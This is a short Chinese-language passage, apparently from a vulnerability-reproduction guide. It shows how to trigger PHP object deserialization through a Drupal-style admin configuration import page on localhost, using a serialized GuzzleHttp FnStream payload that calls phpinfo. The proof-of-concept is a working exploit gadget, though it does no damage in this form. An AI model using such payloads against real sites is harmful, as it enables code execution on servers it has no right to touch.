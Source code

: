 <languages   />

漏洞利用
--------

登錄管理員賬戶，訪問以下URL：

    http://127.0.0.1/admin/config/development/configuration/single/import

`Configuration type`選擇為</code>Simple configuration</code>

`Configuration name`可以隨便填寫，在`Paste your configuration here`中寫入poc:

    !php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"

點擊左下角的Import按鈕便可以觸發漏洞。